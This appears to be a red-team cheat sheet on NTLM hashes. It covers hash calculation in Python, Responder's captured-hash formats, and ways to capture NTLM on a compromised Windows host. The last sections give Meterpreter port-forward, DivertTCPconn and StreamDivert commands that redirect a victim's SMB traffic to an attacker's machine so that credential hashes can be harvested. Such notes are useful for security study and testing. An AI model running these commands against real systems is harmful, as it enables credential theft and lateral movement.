 ```yaml
---
description: NT / LM Hashes
---
```


# NTLM

* [https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/)




## Calculate NTLM

* [https://www.browserling.com/tools/ntlm-hash](https://www.browserling.com/tools/ntlm-hash)

With Python:

```python
>>> import hashlib
>>> hashlib.new('md4', 'Passw0rd!'.encode('utf-16le')).hexdigest()
```




## Responder Capture Structure

* [https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149](https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149)
* [https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2](https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2)
* [https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/](https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/)
* Andrei Miroshnikov. Windows Security Monitoring: Scenarios and Patterns, Part III, pp. 330-333.

`[SMB] NTLMv1 Hash` and `[SMB] NTLMv1-SSP Hash` capture structure:

```
<Username>:<Domain>:<LMv1_Response>:<NTv1_Response>:<Server_Challenge>
```

`[SMB] NTLMv2-SSP Hash` capture structure:

```
<Username>:<Domain>:<Server_Challenge>:<LMv2_Response>:<NTv2_Response>
```




## Capture NTLM on Windows

* [https://reqrypt.org/windivert.html](https://reqrypt.org/windivert.html)
* [https://github.com/basil00/Divert](https://github.com/basil00/Divert)
* [https://googleprojectzero.blogspot.com/2021/08/understanding-network-access-windows-app.html](https://googleprojectzero.blogspot.com/2021/08/understanding-network-access-windows-app.html)



### DivertTCPconn

* [https://github.com/Arno0x/DivertTCPconn](https://github.com/Arno0x/DivertTCPconn)

Divert incoming SMB traffic on Victim to Victim's local port 8445, sent it through a reverse-forwarded port (meterpreter session must be elevated) to Attacker's local 445 port and capture the hashes with Responder:

```
$ sudo python Responder.py -I eth0 -Av
meterpreter > portfwd add -R -L 127.0.0.1 -l 445 -p 8445
meterpreter > execute -f divertTCPconn.exe -a "445 8445"
```



### StreamDivert

* [https://github.com/jellever/StreamDivert](https://github.com/jellever/StreamDivert)

Divert all inbound TCP connections to port 445 (SMB) coming from 192.168.1.11 to 10.10.13.37 port 445:

```
Cmd > powershell -c "Add-Content conf.txt 'tcp < 445 192.168.1.11 -> 10.10.13.37 445'"
Cmd > .\StreamDivert.exe .\conf.txt -f -v
```
